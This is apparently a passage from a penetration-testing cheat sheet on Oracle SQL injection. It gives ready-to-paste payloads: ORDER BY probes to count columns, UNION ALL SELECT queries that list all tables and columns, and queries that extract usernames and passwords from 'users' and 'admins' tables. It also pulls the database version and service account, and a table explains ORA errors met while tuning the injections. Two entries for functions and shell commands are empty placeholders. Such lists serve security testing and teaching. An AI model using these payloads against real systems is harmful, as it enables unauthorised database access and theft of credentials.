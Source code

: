 Get the number of columns of a table (increment the number until there is an error; ex: if 4 triggers an error, there are 3 columns).

```
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
' ORDER BY 4 --
```

Get all table names (look for user/admin tables).

```
' UNION ALL SELECT table_name,null,null FROM all_tables --
```

Get all possible column names within the entire database (look for values like "username" and "password").

```
' UNION ALL SELECT column_name,null,null FROM user_tab_cols --
```

Get usernames and passwords from the users table.

```
' UNION ALL SELECT username,password,null FROM users --
```

Get usernames and passwords from the admins table.

```
' UNION ALL SELECT username,password,null FROM admins --
```

Get the database software version.

```
' UNION ALL SELECT banner,null,null FROM v$version --
```

Get the database service account name.

```
' UNION ALL SELECT user,null,null FROM dual --
```

Execute a database function (ex: user(), database(), etc.).

```
# query goes here
```

Execute shell command (ex: find current working directory).

```
# query goes here
```

Common Oracle-based SQL Query Errors

| ID        | Error                                                          | Explanation                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| --------- | -------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ORA-00923 | FROM keyword not found where expected                          | Occurs when you try to execute a SELECT or REVOKE statement without a FROM keyword in its correct form and place. If you are seeing this error, the keyword FROM is spelled incorrectly, misplaced, or altogether missing. In Oracle, the keyword FROM must follow the last selected item in a SELECT statement or in the case of a REVOKE statement, the privileges. If the FROM keyword is missing or otherwise incorrect, you will see ORA-00923. |
| ORA-00933 | SQL command not properly ended                                 | The SQL statement ends with an inappropriate clause. Correct the syntax by removing the inappropriate clauses.                                                                                                                                                                                                                                                                                                                                       |
| ORA-00936 | Missing expression                                             | You left out an important chunk of what you were trying to run. This can happen fairly easily, but provided below are two examples that are the most common occurrence of this issue.The first example is the product of missing information in a SELECT statement. The second is when the FROM clause within the statement is omitted.                                                                                                              |
| ORA-01785 | ORDER BY item must be the number of a SELECT-list expression   |                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| ORA-01789 | Query block has incorrect number of result columns             |                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| ORA-01790 | Expression must have same datatype as corresponding expression | Re-write the SELECT statement so that each matching column is the same data type. Try replacing the columns with null. For example, if you only want to see the table\_name and the output is 3 columns, use "table\_name,null,null" not "table\_name,2,3".                                                                                                                                                                                          |
